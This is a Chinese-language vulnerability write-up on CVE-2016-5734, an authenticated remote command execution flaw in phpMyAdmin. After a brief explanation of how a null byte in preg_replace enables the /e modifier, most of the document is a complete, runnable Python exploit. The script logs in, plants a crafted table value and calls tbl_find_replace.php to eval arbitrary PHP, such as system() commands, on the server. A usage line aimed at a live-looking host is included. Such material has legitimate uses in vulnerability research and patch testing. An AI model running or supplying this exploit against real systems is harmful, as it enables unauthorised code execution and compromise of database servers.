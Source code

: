 （CVE-2016-5734）Phpmyadmin 后台远程命令执行漏洞
================================================

一、漏洞简介
------------

在PHP5.4.7以前，preg\_replace的第一个参数可以利用\\0进行截断，并将正则模式修改为e。众所周知，e模式的正则支持执行代码，此时将可构造一个任意代码执行漏洞。

二、漏洞影响
------------

4.0.10.16之前4.0.x版本4.4.15.7之前4.4.x版本4.6.3之前4.6.x版本（实际上由于该版本要求PHP5.5+，所以无法复现本漏洞）

三、复现过程
------------

这个功能需要登录，且能够写入数据。

因为目标环境使用root，所以我们可以创建一个临时数据库和数据表，进行漏洞利用。这里，我们使用POC来复现漏洞。

    ./cve-2016-5734.py -c 'system(id);' -u root -p root -d test http://www.0-sec.org:8080/

![VS4QW3R595\~78N763.png](./.resource/(CVE-2016-5734)Phpmyadmin后台远程命令执行漏洞/media/rId24.png)

-d是已经可以写的数据库，-c是待执行的PHP语句，如果没有指定表名，这个POC会创建一个名为`prgpwn`的表。

### poc

    #!/usr/bin/env python

    """cve-2016-5734.py: PhpMyAdmin 4.3.0 - 4.6.2 authorized user RCE exploit
    Details: Working only at PHP 4.3.0-5.4.6 versions, because of regex break with null byte fixed in PHP 5.4.7.
    CVE: CVE-2016-5734
    Author: https://twitter.com/iamsecurity
    run: ./cve-2016-5734.py -u root --pwd="" http://localhost/pma -c "system('ls -lua');"
    """

    import requests
    import argparse
    import sys

    __author__ = "@iamsecurity"

    if __name__ == '__main__':
        parser = argparse.ArgumentParser()
        parser.add_argument("url", type=str, help="URL with path to PMA")
        parser.add_argument("-c", "--cmd", type=str, help="PHP command(s) to eval()")
        parser.add_argument("-u", "--user", required=True, type=str, help="Valid PMA user")
        parser.add_argument("-p", "--pwd", required=True, type=str, help="Password for valid PMA user")
        parser.add_argument("-d", "--dbs", type=str, help="Existing database at a server")
        parser.add_argument("-T", "--table", type=str, help="Custom table name for exploit.")
        arguments = parser.parse_args()
        url_to_pma = arguments.url
        uname = arguments.user
        upass = arguments.pwd
        if arguments.dbs:
            db = arguments.dbs
        else:
            db = "test"
        token = False
        custom_table = False
        if arguments.table:
            custom_table = True
            table = arguments.table
        else:
            table = "prgpwn"
        if arguments.cmd:
            payload = arguments.cmd
        else:
            payload = "system('uname -a');"

        size = 32
        s = requests.Session()
        # you can manually add proxy support it's very simple ;)
        # s.proxies = {'http': "127.0.0.1:8080", 'https': "127.0.0.1:8080"}
        s.verify = False
        sql = '''CREATE TABLE `{0}` (
          `first` varchar(10) CHARACTER SET utf8 NOT NULL
        ) ENGINE=InnoDB DEFAULT CHARSET=latin1;
        INSERT INTO `{0}` (`first`) VALUES (UNHEX('302F6500'));
        '''.format(table)

        # get_token
        resp = s.post(url_to_pma + "/?lang=en", dict(
            pma_username=uname,
            pma_password=upass
        ))
        if resp.status_code is 200:
            token_place = resp.text.find("token=") + 6
            token = resp.text[token_place:token_place + 32]
        if token is False:
            print("Cannot get valid authorization token.")
            sys.exit(1)

        if custom_table is False:
            data = {
                "is_js_confirmed": "0",
                "db": db,
                "token": token,
                "pos": "0",
                "sql_query": sql,
                "sql_delimiter": ";",
                "show_query": "0",
                "fk_checks": "0",
                "SQL": "Go",
                "ajax_request": "true",
                "ajax_page_request": "true",
            }
            resp = s.post(url_to_pma + "/import.php", data, cookies=requests.utils.dict_from_cookiejar(s.cookies))
            if resp.status_code == 200:
                if "success" in resp.json():
                    if resp.json()["success"] is False:
                        first = resp.json()["error"][resp.json()["error"].find("<code>")+6:]
                        error = first[:first.find("</code>")]
                        if "already exists" in error:
                            print(error)
                        else:
                            print("ERROR: " + error)
                            sys.exit(1)
        # build exploit
        exploit = {
            "db": db,
            "table": table,
            "token": token,
            "goto": "sql.php",
            "find": "0/e\0",
            "replaceWith": payload,
            "columnIndex": "0",
            "useRegex": "on",
            "submit": "Go",
            "ajax_request": "true"
        }
        resp = s.post(
            url_to_pma + "/tbl_find_replace.php", exploit, cookies=requests.utils.dict_from_cookiejar(s.cookies)
        )
        if resp.status_code == 200:
            result = resp.json()["message"][resp.json()["message"].find("</a>")+8:]
            if len(result):
                print("result: " + result)
                sys.exit(0)
            print(
                "Exploit failed!\n"
                "Try to manually set exploit parameters like --table, --database and --token.\n"
                "Remember that servers with PHP version greater than 5.4.6"
                " is not exploitable, because of warning about null byte in regexp"
            )
            sys.exit(1)

